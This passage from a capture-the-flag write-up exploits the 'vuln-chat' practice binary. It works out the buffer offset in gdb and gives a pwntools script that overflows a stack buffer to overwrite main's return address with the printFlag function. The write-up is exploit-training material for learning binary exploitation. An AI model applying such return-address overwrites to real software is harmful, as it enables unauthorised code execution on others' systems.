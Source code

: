 ```c

void printFlag(void)

{
  system("/bin/cat ./flag.txt");
  puts("Use it wisely");
  return;
}

```

So it looks like we have to call printFlag to print the flag for the challenge, and since main does not directly call printFlag, we'll have to overwrite the return address of main with address of printFlag `0804856b`. In the first call to scanf our input should be stored at ebp-0x19 , so I would expect if we send 25 bytes to be at ebp, add another 4 bytes to overwrite ebp, and finally another 4 bytes for the instruction pointer. Let's test in gdb by sending 25 A's and 3 B's + \n char. If we're correct we should see the B's in ebp. I'll break on main<+210>:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/CallFunction/Vulnchat$ python3 -c "print('A' * 25 + 'B'*3)"
AAAAAAAAAAAAAAAAAAAAAAAAABBB
```

```bash
gef➤  x/16wx $esp
0xffffd0c8:	0xf7d934be	0xf7fbe4a0	0xffffd110	0xf7fbe66c
0xffffd0d8:	0xf7fbeb10	0x41000001	0x41414141	0x41414141
0xffffd0e8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd0f8:	0x00424242	0xf7d9c519	0x00000001	0xffffd1b4
gef➤  info frame
Stack level 0, frame at 0xffffd100:
 eip = 0x804865c in main; saved eip = 0xf7d9c519
 Arglist at 0xffffd0f8, args: 
 Locals at 0xffffd0f8, Previous frame's sp is 0xffffd100
 Saved registers:
  ebp at 0xffffd0f8, eip at 0xffffd0fc

```

So it looks like we're right, the saved return address is 0xf7d9c519 and right before this we see the 3 B's (0x00424242) terminated with a null character 0x00. Now we create a python script that replicates this and appends the return address of printFlag. 

```python
from pwn import *

target = process("./vuln-chat")

gdb.attach(target)

payload = b"A" * 25 + b"B" * 4 + p32(0x804856b)

target.send(payload)

target.interactive()

```
